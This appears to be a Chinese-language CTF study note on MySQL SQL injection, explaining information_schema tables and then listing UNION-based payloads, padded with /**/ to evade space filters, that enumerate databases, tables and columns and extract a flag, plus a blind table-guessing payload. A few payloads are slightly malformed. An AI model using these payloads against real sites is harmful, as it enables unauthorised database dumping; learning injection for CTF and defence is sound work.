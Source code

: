 当猜不出表名，字段名。或者无法测试字段数是时。采用强力注入

基本概念

schema：(n) -s/-ta/...men 模式,格式,样板,成规

- 图表,图解,示意图,线路图,系统图                              

schemata ：图解，略图

1.information_schema说明

- nformation_schema数据库是MySQL自带的，它提供了访问数据库元数据的方式。元数据是关于数据的数据，如数据库名或表名，列的数据类型，或访问权限等。有些时候用于表述该信息的其他术语包括“数据词典”和“系统目录”。

- information_schema是信息数据库，其中保存着关于mysql服务器所维护的所有其他数据库的信息。information_schema是一个虚拟数据库，物理上并不存在。

2.information_schema下的表

  2.1 schemata表

1.  schemata表提供了当前mysql实例中所有数据库的信息。

1. schema_name 数据库名

 2.2 tables表

1.  tables表提供了关于数据库中的表的信息（包括视图）。详细表述了某个表属于哪个schema，表类型，表引擎，创建时间等信息

1. 

| table\_schema | 数据库名称 | information\_schema |
| - | - | - |
| table\_name | 表名 |  tables表，属于information\_schema数据库 |
| version | version |  |


2.3 columns表

1.   columns表提供了表中的列信息。详细表述了某张表的所有列以及每个列的信息。是show columns from schemaname(数据库名).tablename(表名)的结果取之此表

2.5 user_privileges表（用户权限表）

1.  user_privileges（用户权限）表给出了关于全程权限的信息。该信息源自mysql.user授权表。是非标准表

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/sql注入/images/87EC359426F04E148B8DC13E21A78176clipboard.png)

























常用注入语句及分析

1.查询所有数据库

/**/union/**/select/**/schema_name/**/from/**/information_schema.schemata/**/where/**/'1'='1



2.查询所有表

/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/'1'='1

2.1查询当前数据库所有表

/**/union/**/select/**/table_name/**/from/**/information_schema.tables/**/where/**/table_schema=(select database() )'1'='1



3.查询所有列

/**/union/**/select/**/column_name/**/from/**/information_schema.columns/**/where/**/'1'='1

3.1查询指定表的所有列

/**/union/**/select/**/column_name/**/from/**/information_schema.columns/**/where/**/table_schema='student'/**/'1'='1



4.查询目标列中字段

/**/union/**/select/**/flag/**/from/**/web1.flag/**/where/**/'1'='1



盲注，猜解数据库名，表名

进行猜解表名： 方法一：1' and exists(select count(*) from 表名) > 0 #

































